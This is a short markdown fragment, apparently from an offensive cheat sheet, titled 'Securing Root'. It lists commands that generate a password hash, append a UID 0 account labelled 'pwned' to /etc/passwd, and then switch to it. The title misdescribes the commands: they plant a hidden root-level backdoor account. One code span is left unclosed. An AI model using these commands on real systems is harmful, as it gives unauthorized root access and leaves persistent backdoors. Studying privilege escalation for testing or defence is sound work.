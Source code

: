 #securing-root

# Securing Root

`openssl passwd -1 a

`echo 'a:<HASH>:0:0:pwned:/root:/bin/bash' >> /etc/passwd`

`su - a`